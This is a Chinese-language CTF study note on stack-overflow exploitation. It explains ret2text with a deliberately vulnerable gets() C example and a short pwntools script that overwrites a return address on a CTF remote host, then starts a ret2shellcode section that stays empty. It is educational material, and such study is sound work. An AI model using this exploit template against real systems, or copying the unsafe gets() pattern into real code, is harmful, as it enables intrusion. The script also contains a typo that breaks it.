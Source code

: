 # 注意

```
当payload构造空字节，使用'\x00'来代替
大多数pwn题的ELF都是动态链接的
```

# 栈漏洞

## ret2text

### 原理

通过溢出，对返回地址进行劫持，来获取shell

```c
#include<stdio.h>
int main(){
	char str[8];
  gets(str);	//由于gets函数缺陷，可以输入超出缓冲区的数据大小，进而覆盖掉返回地址
  return 0;
}
```

gets() ：遇到换行符才停止读取，读取的数据超过缓冲区，就会造成溢出，劫持返回函数

read() ：参数三规定读取大小，当大于数据的大小，就会造成溢出

### 简单栈溢出编写

```python
from pwn form *
#p = process('./pwn')
p = remote('node.buuoj.cn',8888)
payload = cyclic(8) + p64(0x12345678)
p.sendline(payload)
p.interactive()
```

## ret2shellcode

### 原理

利用栈溢出，来实现劫持返回地址，返回到准备好的shellcode来进行取shell

### 手写

### 工具

在 pwntools 中，shellcraft 模块用于生成各种类型的 shellcode，例如反弹 shell、执行系统调用等。

